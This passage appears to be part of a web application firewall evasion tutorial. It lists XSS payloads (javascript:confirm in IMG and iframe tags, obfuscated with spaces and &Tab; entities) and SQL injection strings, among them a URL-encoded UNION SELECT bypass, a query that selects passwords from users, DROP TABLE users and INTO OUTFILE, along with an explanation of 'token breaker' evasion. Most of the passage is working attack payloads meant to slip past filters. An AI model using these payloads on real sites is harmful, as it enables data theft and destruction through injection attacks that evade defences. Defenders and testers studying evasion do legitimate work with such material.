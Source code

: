 **Basic request:**

```bash
<IMG SRC="javascript:confirm();">
```

**Skipped technique:**

```bash
<IMG SRC=" javascript:confirm();">
```

**Variant:**

```bash
<IMG SRC=" jav ascri pt:confirm ();">
```

**Basic request:**

> http://test.com/test?id=1 union select 1,2,3

**Skipped technique** :

> http://test.com/test?id=1%09union%23%0A%0Dselect%2D%2D%0A%0D1,2,3

**Basic request:**

```bash
<iframe src=javascript:confirm()></iframe>
```

**Obfuscate payload:**

```bash
<iframe src=j&Tab;a&Tab;v&Tab;a&Tab;s&Tab;c&Tab;r&Tab;i&Tab;p&Tab;t&Tab;:c&Tab;o&Tab;n&Tab;f&Tab;i&Tab;r&Tab;m&Tab;%28&Tab;%29></iframe>
```

### 14. Token breaker technique

Token-breaking attacks attempt to break the logic of splitting a request into tokens with token-breakers. Token-breakers are symbols that allow affecting the match between an element in a string and a particular token. Our request must remain valid while using token-breakers.

Case study: unknown token to the "tokenizer"

**Our payload:**

```bash
?id=‘-sqlite_version() UNION SELECT passwords FROM users --
```

Case study: context unknown to the parser (observe the bracket without context)

**First payload:**

```bash
?id=12);DROP TABLE users --
```

**Second payload:**

```bash
?id=133) INTO OUTFILE ‘xxx’ --
```
